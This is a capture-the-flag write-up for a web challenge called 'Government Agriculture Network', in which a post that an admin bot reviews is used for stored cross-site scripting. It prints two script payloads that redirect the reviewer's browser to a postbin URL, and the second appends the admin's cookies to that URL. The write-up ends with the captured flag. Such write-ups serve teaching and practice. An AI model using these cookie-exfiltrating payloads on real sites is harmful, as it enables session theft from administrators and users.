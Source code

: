 # Government Agricultire Network

**Given:** web-address https://govagriculture.web.ctfcompetition.com/

Following the link we get to the **Ministry of Agriculture** website. 

Quick inspection of the source code doesn't give out a lot.

There's a form to create a new post and a link to "/admin" page, which doesn't really work (303 SEE OTHER upon navigation and redirect back to main page).

Let's try to create a new post. On sumbit we're being redirected to /post page with following message:

```
Your post was submitted for review. Administator will take a look shortly.
```
This message gives an important piece of information: administrator is going to review our post. If there's a xss vulnerability present then it can be possible to execute a script in administrator's browser.

Let's create a [postbin](https://postb.in/) and write up a simple sctipt which will call our postbin upon execution by the victim's browser:

```
<script>document.location.href='https://postb.in/1586263800460-8725055831018'</script>
```
Immediately we can see that the request reached the bin:
```
x-real-ip: 104.155.55.51
host: postb.in
user-agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/80.0.3987.0 Safari/537.36
accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
referer: https://govagriculture.web.ctfcompetition.com/pwn?msg=%3Cscript%3Edocument.location.href%3D%27https%3A%2F%2Fpostb.in%2F1586263800460-8725055831018%27%3C%2Fscript%3E
[...]
```

Let's modify the scipt to fetch admin's cookies and send it to us:
```
<script>
cookie = document.cookie
document.location.href='https://postb.in/1586263800460-8725055831018?cookie=' + cookie
</script>
```
In postbin we see:
```
Query
cookie: flag=CTF{8aaa2f34b392b415601804c2f5f0f24e};
```

**Flag: CTF{8aaa2f34b392b415601804c2f5f0f24e}**
